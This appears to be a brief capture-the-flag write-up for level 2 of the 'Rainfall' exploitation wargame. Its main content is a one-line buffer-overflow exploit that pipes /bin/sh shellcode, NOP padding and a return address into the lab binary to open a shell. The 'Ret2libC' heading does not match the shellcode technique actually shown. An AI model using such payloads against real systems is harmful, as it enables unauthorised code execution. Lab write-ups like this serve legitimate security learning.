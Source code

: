 # Rainfall - Level 2

## Executable Analyse


## Ret2libC Attack

Like in previous level we found the buffer overflow at position 80.


(python -c "print  b'\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + b'\x90' * (80 - 45) + b'\x08\xa0\x04\x08'" ; cat) | ./level2


https://beta.hackndo.com/buffer-overflow/